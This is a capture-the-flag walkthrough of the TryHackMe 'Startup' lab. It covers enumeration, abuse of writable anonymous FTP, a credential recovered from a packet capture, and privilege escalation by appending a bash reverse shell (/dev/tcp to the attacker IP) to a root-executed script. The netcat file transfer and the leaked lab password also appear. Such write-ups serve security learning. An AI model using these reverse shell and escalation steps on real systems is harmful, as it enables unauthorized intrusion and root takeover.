 # Startup

<img src="startup.png" width=200 height=200 alt="startup">

## Enumeration

### nmap

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.8.226.203
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAzds8QxN5Q2TsERsJ98huSiuasmToUDi9JYWVegfTMV4Fn7t6/2ENm/9uYblUv+pLBnYeGo3XQGV23foZIIVMlLaC6ulYwuDOxy6KtHauVMlPRvYQd77xSCUqcM1ov9d00Y2y5eb7S6E7zIQCGFhm/jj5ui6bcr6wAIYtfpJ8UXnlHg5f/mJgwwAteQoUtxVgQWPsmfcmWvhreJ0/BF0kZJqi6uJUfOZHoUm4woJ15UYioryT6ZIw/ORL6l/LXy2RlhySNWi6P9y8UXrgKdViIlNCun7Cz80Cfc16za/8cdlthD1czxm4m5hSVwYYQK3C7mDZ0/jung0/AJzl48X1
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOKJ0cuq3nTYxoHlMcS3xvNisI5sKawbZHhAamhgDZTM989wIUonhYU19Jty5+fUoJKbaPIEBeMmA32XhHy+Y+E=
|   256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPnFr/4W5WTyh9XBSykso6eSO6tE0Aio3gWM8Zdsckwo
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### ffuf

```
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
[Status: 200, Size: 808, Words: 136, Lines: 21]
files                   [Status: 301, Size: 312, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 808, Words: 136, Lines: 21]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
```

If ftp is open its worth checking

haha nice meme...now we know Maya is a cool person

<img src="important.jpg" alt="important.jpg" width=300/>

`notice.txt`

```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

same files are found in the `files` directory of website by the way

```
binwalk important.jpg

## DECIMAL HEXADECIMAL DESCRIPTION

0 0x0 PNG image, 735 x 458, 8-bit/color RGBA, non-interlaced
57 0x39 Zlib compressed data, compressed
```

Expected that

I go back to ftp folder and notice that i missed a hidden file

but it just says `'test'` so not useful

```
150 Here comes the directory listing.
drwxr-xr-x 3 65534 65534 4096 Nov 12 2020 .
drwxr-xr-x 3 65534 65534 4096 Nov 12 2020 ..
-rw-r--r-- 1 0 0 5 Nov 12 2020 .test.log
drwxrwxrwx 2 65534 65534 4096 Nov 12 2020 ftp
-rw-r--r-- 1 0 0 251631 Nov 12 2020 important.jpg
-rw-r--r-- 1 0 0 208 Nov 12 2020 notice.txt
226 Directory send OK.
```

But hey we have write permission on ftp folder

lol...As it's also accessible via website we can execute a shell

And we are already in

We have no permssion to access lennie folder so I wander inside

As we start from `/` we get `recipe.txt`

```
www-data@startup:/$ cat recipe.txt
cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

There is also an `incidents` folder

```
www-data@startup:/incidents$ ls
ls
suspicious.pcapng
```

we get that pcap file with netcat

```
nc 10.8.226.203 2311 < suspicious.pcapng //on remote
nc -lnvp 2311 > suspicious.pcapng // on local (listen to)
```

Mostly gibberish as expected (its supposed to be a job for wiireshark)

```
*ôe*ôe[sudo] password for www-data:         d       œ=:wé.ÞD   D               E  4@ @ÕÀšÀš\æ¿Çó/5²â @®  
*ôe*ôed      x       Ÿ=:cÑOW   W              E  G@ @ÁÀšÀš\æ¿Çó/5²â @®   
*ôl*ôec4ntg3t3n0ughsp1c3
 x      h       Ÿ=:FyÃOF   F               E  6%@ @gJÀšÀšæ\/5²â¿È @®  
*ôl*ôl
  h      d       Ÿ=:ŸÃOD   D               E  4@ @ÓÀšÀš\æ¿È/5²ä @®  
*ôl*ôld             Ÿ=:ÆOÞi   i             E  Y%@ @g&ÀšÀšæ\/5²ä¿È @®²  
*ôuà*ôlsudo: 3 incorrect password attempts
```

`c4ntg3t3n0ughsp1c3` looks like a password

let's find out...and it is!

we can switch user (su) or just ssh as lennie with the creds

`lennie : c4ntg3t3n0ughsp1c3`

FLag

```
$ cat user.txt
THM{not_enough_tartar_sauce}
```

There is also a scripts folder

```
$ cd scripts
$ ls -al
total 16
drwxr-xr-x 2 root root 4096 Nov 12 2020 .
drwx------ 5 lennie lennie 4096 Nov 15 16:23 ..
-rwxr-xr-x 1 root root 77 Nov 12 2020 planner.sh
-rw-r--r-- 1 root root 1 Nov 15 16:26 startup_list.txt
```

Boy a sh script belonging to Root and we can execute it...but not write to it

```
$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

the script refer to another one and I am pretty sure we can modify this one

```
$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
```

yup it belongs to lennie and we are lennie

it basically runs the print.sh just to say it is done?? XD

let's add a shell

`echo "bash -c 'exec bash -i &>/dev/tcp/10.8.226.203/2311 <&1'" >> print.sh`

maybe its a cron because I didnt even need to run `./planner.sh`

I was immediately root on my netcat listenner

```
root@startup:~# cat root.txt
cat root.txt
THM{add_schezuan_sauce}
```

I wonder who that pretty sus Maya is

Funny how the meme named important.jpg was not even remotely important

Merely a distraction
